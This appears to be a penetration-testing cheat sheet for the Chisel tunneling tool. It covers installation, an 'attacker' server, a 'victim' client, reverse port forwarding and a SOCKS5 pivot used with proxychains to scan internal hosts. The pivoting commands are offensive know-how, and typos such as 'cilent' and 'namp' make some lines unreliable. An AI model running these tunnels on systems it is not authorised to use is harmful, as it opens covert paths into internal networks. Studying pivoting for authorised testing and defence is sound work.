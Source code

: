 ```yaml
---
icon: squirrel
---
```


# Tool - Chisel

## Commands

## Installation

```
# Source
go install github.com/jpillora/chisel@latest

# Docker
docker run --rm -it jpillora/chisel --help
```

### Help Menu

```
./chisel -h
```

### Run Server (Attacker Machine)

```
./chisel server -p 3333
```

### Run Client (Victim Machine)

```
./chisel32 client <server ip>:3333 5555:google.com:80
```

### Reverse Method

```
# Server
./chisel server -p 3333 --reverse

# Client
./chisel32 client <server ip>:3333 R:4444:<other machine ip>:80
```

### Socks5

```
# Server
./chisel server -p 3333 --reverse --socks5

# Client
./chisel cilent <server ip> R:5555:socks

# Edit the proxychains4.conf in attacker machine
sudo nano /etc/proxychains4.conf
Add -> socks5 127.0.0.1 5555 

# Scanning
proxychains4 namp -p80,21 <outer machine ip>
```

## REFERENCES

* [https://github.com/jpillora/chisel](https://github.com/jpillora/chisel)&#x20;
* [https://ap3x.github.io/posts/pivoting-with-chisel/](https://ap3x.github.io/posts/pivoting-with-chisel/)&#x20;
* [https://www.youtube.com/watch?v=srUUUkcYEwg](https://www.youtube.com/watch?v=srUUUkcYEwg)&#x20;

